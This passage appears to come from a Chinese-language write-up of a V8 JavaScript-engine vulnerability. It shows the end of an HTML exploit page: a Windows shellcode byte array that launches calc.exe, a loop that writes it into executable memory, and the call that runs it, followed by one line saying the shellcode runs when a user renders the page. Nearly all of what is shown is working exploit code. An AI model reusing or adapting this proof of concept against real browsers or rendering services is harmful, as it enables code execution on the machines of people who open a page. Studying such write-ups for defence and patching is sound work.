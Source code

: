 ```plain
            0x8b, 0x04, 0x82, 0x03, 0x45, 0xfc, 0xc3, 0xba, 0x78, 0x78, 0x65, 0x63, 0xc1, 0xea, 0x08, 0x52,
            0x68, 0x57, 0x69, 0x6e, 0x45, 0x89, 0x65, 0x18, 0xe8, 0xb8, 0xff, 0xff, 0xff, 0x31, 0xc9, 0x51,
            0x68, 0x2e, 0x65, 0x78, 0x65, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x89, 0xe3, 0x41, 0x51, 0x53, 0xff,
            0xd0, 0x31, 0xc9, 0xb9, 0x01, 0x65, 0x73, 0x73, 0xc1, 0xe9, 0x08, 0x51, 0x68, 0x50, 0x72, 0x6f,
            0x63, 0x68, 0x45, 0x78, 0x69, 0x74, 0x89, 0x65, 0x18, 0xe8, 0x87, 0xff, 0xff, 0xff, 0x31, 0xd2,
            0x52, 0xff, 0xd0, 0x90, 0x90, 0xfd, 0xff]
    );

    log("[+] writing shellcode ... ");
    for (let i = 0; i < shellcode.length; i++)
        write(RWX_Mem_Addr + i, shellcode[i]);

    log("[+] execute shellcode !");
    opt_me();
}
pwn();
</script>
</body>
</html>
```

用户在通过 Render 功能渲染页面时触发 v8 漏洞成功执行 shellcode。

![img](assets/1698903994-1f7c3dcc81c12f1890e78e3248ccffe8.jpg)
